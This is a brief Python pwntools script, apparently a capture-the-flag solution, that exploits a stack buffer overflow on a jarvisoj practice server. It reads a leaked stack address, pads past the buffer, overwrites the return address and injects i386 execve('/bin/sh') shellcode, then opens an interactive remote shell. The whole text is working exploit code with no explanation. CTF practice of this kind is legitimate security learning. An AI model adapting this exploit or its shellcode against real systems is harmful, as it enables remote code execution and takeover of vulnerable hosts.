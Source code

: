 from pwn import *
sh = remote('pwn2.jarvisoj.com', 9877) 
line = sh.readline()
address = int(line[len("What's this:"):-2], 16)
print address
junk = 'a' * (0x88+4)
retaddr = address + 0x88 + 4 + 4
shellcode = "\x31\xc0\x31\xd2\x31\xdb\x31\xc9\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80\n"
payload = junk + p32(retaddr) + shellcode
sh.send(payload)
sh.interactive()
